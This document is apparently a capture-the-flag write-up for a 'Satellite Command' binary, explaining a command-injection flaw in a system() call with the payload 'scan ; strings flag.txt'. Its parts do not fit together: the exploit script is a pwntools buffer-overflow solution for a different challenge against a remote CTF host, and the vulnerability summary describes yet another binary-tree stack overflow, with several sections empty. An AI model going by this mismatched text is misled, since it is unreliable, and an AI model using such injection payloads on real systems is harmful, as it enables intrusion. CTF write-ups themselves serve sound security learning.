





# Satellite Command - Writeup

---

## Challenge Description



---

## Exploit Demo

This demo shows the exploitation flow:



---

## Challenge Summary

The binary simulates a satellite command interface with several options, including a `scan` command that takes a directory name as input and internally constructs a shell command like:

```
ls -l ./satellite/<user_input>
```

The program then executes it using `system()`. Although it checks for blocked terms via `is_blocked()`, if `flag.txt` is not filtered or if the filter is bypassable. Due to unsanitized input, it's possible to inject shell metacharacters such as ; to execute arbitrary commands

---

## Binary Information

```bash
$ file challenge
```



```bash
$ pwn checksec challenge
```



---

## Static Analysis (IDA Pro)

In IDA Pro, the `main()` function reveals a loop-based command handler that reads user input using `fgets()` into a 128-byte buffer. The input is then compared against several command strings (`help`, `status`, `scan`, etc.).

For the `scan` command:

- The input is parsed and passed to `snprintf()` to build a shell command:

  ```c
  snprintf(
                (unsigned int)v26,
                256,
                (unsigned int)"ls -l ./satellite/%s 2>/dev/null",
                (unsigned int)v25,
                v11,
                v12,
                (char)v25);
  ```



- This command is then executed with `system()`.

Before execution, the input is checked by a function called `is_blocked()`, which attempts to detect blacklisted terms. However, this filter can potentially be bypassed using shell metacharacters (e.g., `;`) or obfuscated input.

Because the `system()` call is based on unsanitized user input, the program is vulnerable to **command injection**, allowing unintended command execution like `strings flag.txt`.

---

## Exploit Strategy

To exploit the vulnerability, supply a crafted input using shell metacharacters via the `scan` command. For example:

```
scan ; strings flag.txt
```

This input causes the program to construct and execute:

```
ls -l ./satellite/; strings flag.txt 2>/dev/null
```

Since the input is passed directly to `system()` without proper sanitization, the injected `strings flag.txt` command executes after the semicolon. If `is_blocked()` does not filter `;` or if it can be bypassed, the attacker gains arbitrary command execution and can read the flag.

---

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template canary_in_the_bitcoin_mine --host host3.metaproblems.com --port 5980
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'canary_in_the_bitcoin_mine')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host3.metaproblems.com'
port = int(args.PORT or 5980)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

BUFFER = b'A' * 64
CANARY = b'BIRD'
EARNED_FLAG = b'true'

payload = flat(
        BUFFER,
        CANARY,
        EARNED_FLAG
)
io.sendline(payload)
io.recvuntil(b"Well done, you've earned the flag!")
io.recvline()
flag = io.recvline().strip()
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")


```

---

## Exploit Output


---

## Vulnerability Summary

The binary parses strings representing binary trees and stores them in a stack-allocated array. It calculates the required buffer size by counting the number of nodes and assuming the tree is fully balanced. However, this logic fails when the tree is **deep and sparse** (e.g., having only right children), where the **depth exceeds the allocated array size**.

As a result, during deserialization, the program writes **beyond the bounds of the stack buffer**, causing a **stack-based buffer overflow**. Because the stack layout places the return address near the end of the array, carefully crafted input can be used to **partially overwrite the return address**. Although stack canaries are present and **ASLR is enabled**, the attacker leverages:

- **A hidden `debug_shell()` function** (ret2win-style exploitation).
- **Partial return address overwrite** (only lower 2 bytes needed).
- **Brute-force guessing** (\~16 tries on average due to 4 bits of entropy).

This leads to reliable control of execution flow and ultimately a shell, allowing retrieval of the flag.

---

## Flag

```
MetaCTF{0h_chr1stm4s_tr33_h0w_l0v3ly_4r3_y0ur_br4nch3s}
```
